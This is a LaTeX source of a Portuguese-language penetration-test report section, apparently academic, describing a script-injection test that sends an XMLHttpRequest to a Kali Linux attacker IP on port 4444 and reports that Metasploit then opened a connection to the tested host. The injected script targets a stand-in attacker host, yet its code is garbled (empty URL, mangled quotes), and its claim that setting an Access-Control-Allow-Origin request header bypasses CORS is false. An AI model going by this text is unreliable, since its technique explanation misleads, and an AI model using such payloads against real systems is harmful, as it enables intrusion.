 \documentclass[
    12pt,               %
    openright,          %
    oneside,            %
    a4paper,            %
    section=TITLE,     %
    english,            %
    french,             %
    spanish,            %
    brazil              %
    ]{abntex2}
\begin{document}
\paragraph*{Sessão de teste 2}

Para ignorar o filtro CORS, deve ser adicionada ao cabeçalho da requisição uma instrução que simule uma assinatura válida para o navegador. Para esse fim, foi utilizada a instrução \textquotedblleft{}\emph{setRequestHeader\textquotedblright{} }para adicionar as credenciais maliciosas ao cabeçalho.


O código abaixo cria um objeto do tipo XMLHttpRequest e inicia uma chamada Ajax~ do tipo GET para IP\_do\_kali\_linux na porta 4444 de forma assíncrona.


$\textless$script$\textgreater$


r = new XMLHttpRequest();


r.open(''GET``,\rq{}\rq{},false);


r.setRequestHeader(\textquotedblleft{}Access-Control-Allow-Origin\textquotedblright{},\textquotedblright{}*\textquotedblright{});


r.send();


$\textless$/script$\textgreater$



\paragraph*{Resultado esperado}

Espera-se que a máquina que hospeda o sistema não permita que a conexão seja aberta.



\paragraph*{Relatório de execução}

O sistema não passou nos testes. Conforme mostram as Figura 35 e 36~a requisição foi bem-sucedida e o Metasploit conseguiu iniciar o exploit na máquina que hospeda o sistema explorado.


Através desse exploit, uma conexão entre máquina atacada e o sistema atacante é aberta podendo haver graves consequências como: Escalada de privilégios na máquina atacada e criação de backdoors.





\begin{figure}[htp]
\centering
\caption{Console do navegador indicando a conexão.}
\includegraphics[width=450px]{image32.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi
\end{document}
